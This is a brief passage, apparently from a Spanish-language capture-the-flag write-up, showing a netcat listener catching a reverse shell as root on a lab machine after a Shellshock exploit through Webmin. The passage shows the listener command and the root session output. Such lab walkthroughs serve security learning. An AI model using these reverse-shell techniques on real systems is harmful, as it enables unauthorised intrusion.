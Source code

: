 <figure><img src="../../../.gitbook/assets/shellshockBurp.PNG" alt=""><figcaption></figcaption></figure>

* Recibimos la **reverse shell** y estaríamos dentro como **root**

```shell
> nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.7] 37081
bash: no job control in this shell
[root@beep webmin]# whoami
root
```
